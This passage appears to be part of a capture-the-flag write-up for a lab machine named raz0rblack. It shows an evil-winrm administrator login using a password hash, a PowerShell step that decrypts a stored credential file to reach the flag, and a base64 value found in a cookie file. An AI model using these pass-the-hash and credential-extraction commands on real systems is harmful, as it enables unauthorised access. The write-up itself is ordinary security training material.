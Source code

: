 ```shell
evil-winrm -i raz0rblack.thm -u administrator -H HASH
```

Now we can decrypt the xml file to get the flag

![](attachments/20240516102813.png)

```powershell
$Credential = Import-Clixml -Path root.xml
$Credential.GetNetworkCredential().password
```

It still gives and error.

Checking the cookie.json file, we have a base64 code

![](attachments/20240516103613.png)

Decode it

![](attachments/20240516103737.png)

